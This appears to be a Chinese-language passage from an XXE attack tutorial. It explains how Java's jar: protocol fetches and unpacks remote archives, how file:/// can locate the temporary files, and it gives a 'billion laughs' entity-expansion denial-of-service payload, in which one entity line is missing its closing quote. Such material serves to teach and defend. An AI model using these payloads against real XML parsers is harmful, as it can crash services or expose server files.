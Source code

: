 **实例：**

```
jar:http://host/application.jar!/file/within/the/zip

这个 ! 后面就是其需要从中解压出的文件
```

jar 能从远程获取 jar 文件，然后将其中的内容进行解压，等等。



**jar 协议处理文件的过程：**

(1) 下载 jar/zip 文件到临时文件中
(2) 提取出我们指定的文件
(3) 删除临时文件

**那么我们怎么找到我们下载的临时文件呢？**

因为在 java 中 file:/// 协议可以起到列目录的作用，所以我们能用 file:/// 协议配合 jar:// 协议使用





可以参考这位师傅的文章：https://xz.aliyun.com/t/3357



















### DoS 攻击

其原理是通过不断迭代增大变量的空间，进而导致内存崩溃。

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```



